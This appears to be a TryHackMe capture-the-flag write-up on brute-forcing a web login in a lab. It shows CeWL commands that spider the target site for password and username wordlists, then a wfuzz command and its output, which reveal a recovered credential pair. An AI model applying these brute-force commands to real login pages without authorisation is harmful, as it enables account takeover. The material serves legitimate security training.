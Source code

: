 **FLAG - `THM{pin-code-brute-force}`**

# 4. Brute-forcing Baby, it's CeWLd outside
###### CATEGORY - BRUTE FORCE

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details.
Beyond simple wordlist generation, CeWL can also compile a list of email addresses or usernames identified in team members' page links. Such data can then serve as potential usernames in brute-force operations.

CeWL provides a lot of options that allow you to tailor the wordlist to your needs:

1. **Specify spidering depth:** The `-d` option allows you to set how deep CeWL should spider. For example, to spider two links deep: `cewl http://10.10.237.53 -d 2 -w output1.txt`
2. **Set minimum and maximum word length:** Use the `-m` and `-x` options respectively. For instance, to get words between 5 and 10 characters: `cewl http://10.10.237.53 -m 5 -x 10 -w output2.txt`
3. **Handle authentication:** If the target site is behind a login, you can use the `-a` flag for form-based authentication.
4. **Custom extensions:** The `--with-numbers` option will append numbers to words, and using `--extension` allows you to append custom extensions to each word, making it useful for directory or file brute-forcing.
5. **Follow external links:** By default, CeWL doesn't spider external sites, but using the `--offsite` option allows you to do so.

we use this command to generate the passwords.txt file

```bash
cewl -d 2 -m 5 -w passwords.txt http://10.10.237.53 --with-number
```

we use the team members page and generate username
```bash
cewl -d 0 -m 5 -w usernames.txt http://10.10.237.53/team.php --lowercase
```

we then use wfuzz to bruteforce the password
```bash
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.237.53/login.php -d "username=FUZZ&password=FUZ2Z"
```

- `-z file,usernames.txt` loads the usernames list.
- `-z file,passwords.txt` uses the password list generated by CeWL.
- `--hs "Please enter the correct credentials"` hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
- `-u` specifies the target URL.
- `-d "username=FUZZ&password=FUZ2Z"` provides the POST data format where **FUZZ** will be replaced by usernames and **FUZ2Z** by passwords.

```bash
$ wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.237.53/login.php -d "username=FUZZ&password=FUZ2Z"    
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.237.53/login.php
Total requests: 9361

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000006317:   302        118 L    297 W      4442 Ch     "isaias - Happi
                                                        ness"          
```